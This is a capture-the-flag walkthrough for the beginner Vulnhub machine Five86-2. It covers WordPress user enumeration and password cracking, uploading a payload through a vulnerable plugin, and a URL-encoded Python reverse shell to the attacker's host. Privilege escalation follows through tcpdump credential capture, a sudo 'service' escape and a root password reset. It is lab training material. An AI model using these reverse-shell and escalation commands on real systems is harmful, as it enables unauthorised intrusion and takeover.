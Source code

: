 ```yaml
---
title: "Five86 : 2"
categories: [Proving Grounds, Play]
tags: [Public Exploit, RFI, service, tcpdump, Wordpress, PrivEsc, CMS]
image:
  path: https://user-images.githubusercontent.com/69093629/223876366-7dc516ae-9725-44eb-896c-6136b38f75a5.jpg
  width: "1200"
  height: "630"
  alt:  Five86-2 Machine 🖥️
---
```



| Machine     | <center>Details</center>                     |
| ----------- | -------------------------------------------- |
| **Vulnhub** | https://www.vulnhub.com/entry/five86-2,418/  |
| **Level**   | <center>beginner</center>                    |
| **Creator** | <center>@m0tl3ycr3w and @syed__umar</center> |


### Lets find the IP address first of the victim machine ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled.png)

```bash
IP : 10.0.2.43
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Five86.2]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.43
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 11:36 IST
Nmap scan report for 10.0.2.43
Host is up (0.0020s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      ProFTPD 1.3.5e
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.1.4
|_http-title: Five86-2 &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 08:00:27:19:F4:DF (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix
```
{: .nolineno}

## Web Enumeration ⤵️

Lets set the `/etc/hosts` file as `five86-2`.

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%201.png)

Now lets run wpscan ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%202.png)

got 3 users → admin , barney , stephen 

Lets find the passwords also through wpscan ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%203.png)

```bash
barney : spooky1
stephen : apollo1
```
{: .nolineno}

Lets login with barney credentials →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%204.png)

Now in plugin section I found a vulnerable service lets enable it for uploading our payload ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%205.png)

Now through web I got an [exploit](https://www.exploit-db.com/exploits/46981) poc for exploiting this service →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%206.png)

So lets follow this path ⬆️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%207.png)

Now lets upload our payload →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%208.png)

Now After Inserting I got the path so lets load the url ⤵️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2010.png)

As I got the command Injection so lets have a reverse shell.

```bash
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.42%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2011.png)

Now lets dig into the shell → 

```bash
www-data@five86-2:/home$ ls -al
ls -al
total 40
drwxr-xr-x 10 root    root    4096 Jan  9  2020 .
drwxr-xr-x 20 root    root    4096 Jan  8  2020 ..
drwx------  2 barney  barney  4096 Jan 13  2020 barney
drwx------  2 george  george  4096 Jan 13  2020 george
drwx------  2 gillian gillian 4096 Jan 13  2020 gillian
drwx------  2 john    john    4096 Jan 13  2020 john
drwx------  3 paul    paul    4096 Jan 13  2020 paul
drwx------  4 peter   peter   4096 Jan 13  2020 peter
drwx------  2 richard richard 4096 Jan 13  2020 richard
drwx------  2 stephen stephen 4096 Jan 13  2020 stephen
www-data@five86-2:
```
{: .nolineno}

Now I got 8 users →

```bash
barney:x:1001:1001:Barney Sumner:/home/barney:/bin/bash
stephen:x:1002:1002:Stephen Morris:/home/stephen:/bin/bash
peter:x:1003:1003:Peter Hook:/home/peter:/bin/bash
gillian:x:1004:1004:Gillian Gilbert:/home/gillian:/bin/bash
richard:x:1005:1005:Richard Starkey:/home/richard:/bin/bash
paul:x:1006:1006:Paul McCartney:/home/paul:/bin/bash
john:x:1007:1007:John Lennon:/home/john:/bin/bash
george:x:1008:1008:George Harrison:/home/george:/bin/bash
```
{: .nolineno}

Lets use the same wpscan passwords for switching to another users →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2012.png)

```bash
stephen@five86-2:/$ id
uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
```
{: .nolineno}

Now lets look for the capability files ➡️

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2013.png)

So I have tcpdump Lets look for the services/files/ethernet Interface it is running to →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2014.png)

Now lets run the tcpdump at this ⬆️`veth8d3c874` interface and capture some traffic into `cap.pcap` file →

![Untitled](/Vulnhub-Files/img/Five86-2/Untitled%2015.png)

Now I got a credential for paul →

```bash
paul : esomepasswford
```
{: .nolineno}

lets switch user and recon further →

```bash
paul@five86-2:~$ sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service
```
{: .nolineno}

Now call the /bin/sh service for peter to get the peter shell ➡️

```bash
paul@five86-2:~$ sudo -u peter service ../../bin/sh
$ whoami
peter
$ id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
$ sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd 
$ sudo passwd root
New password: 
Retype new password: 
passwd: password updated successfully
$ su root
Password: 
root@five86-2:/# whoami
root
root@five86-2:/# id
uid=0(root) gid=0(root) groups=0(root)
root@five86-2:/# ls -al /root
total 48
drwx------  5 root root 4096 Jan 13  2020 .
drwxr-xr-x 20 root root 4096 Jan  8  2020 ..
-rw-------  1 root root 1798 Jan 13  2020 .bash_history
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwxr-xr-x  3 root root 4096 Jan  9  2020 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
drwxr-xr-x  3 root root 4096 Jan  8  2020 snap
drwx------  2 root root 4096 Jan  8  2020 .ssh
-rwx------  1 root root  995 Jan  9  2020 thisistheflag.txt
-rw-------  1 root root 8853 Jan 13  2020 .viminfo
```
{: .nolineno}

`thisistheflag.txt` file ⤵️

```bash
root@five86-2:/# cat /root/thisistheflag.txt

__   __            _                           _                                 _ _ _ _ _ 
\ \ / /           | |                         | |                               | | | | | |
 \ V /___  _   _  | |__   __ ___   _____    __| | ___  _ __   ___  __      _____| | | | | |
  \ // _ \| | | | | '_ \ / _` \ \ / / _ \  / _` |/ _ \| '_ \ / _ \ \ \ /\ / / _ \ | | | | |
  | | (_) | |_| | | | | | (_| |\ V /  __/ | (_| | (_) | | | |  __/  \ V  V /  __/ | |_|_|_|
  \_/\___/ \__,_| |_| |_|\__,_| \_/ \___|  \__,_|\___/|_| |_|\___|   \_/\_/ \___|_|_(_|_|_)
                                                                                           
                                                                                           
Congratulations - hope you enjoyed Five86-2.

If you have any feedback, please let me know at @Five86_x

I also want to send out a big thanks to all those who help me with beta testing
of the various challenges:  @m0tl3ycr3w and @syed__umar in particular

root@five86-2:/#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }